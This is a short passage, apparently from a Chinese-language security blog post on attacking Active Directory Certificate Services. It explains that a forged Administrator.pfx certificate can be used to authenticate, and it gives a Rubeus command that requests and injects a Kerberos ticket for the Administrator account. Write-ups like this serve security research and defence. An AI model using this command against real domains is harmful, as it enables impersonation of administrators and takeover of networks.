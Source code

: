 ![](/assets/posts/2022-03-25-attack-surface-mining-for-ad-cs/PEflkojvz6Xa4ur.png)

如上图所示，最终生成的 Administrator.pfx 可用于前文所述的 SChannel 进行身份验证或使用 Rubeus 为伪造用户获取 TGT，如下所示。

```console
C:\Users\Marcus\Desktop> Rubeus.exe asktgt /user:Administrator /certificate:C:\Users\Marcus\Administrator.pfx /password:NewPassw0rd /ptt
```
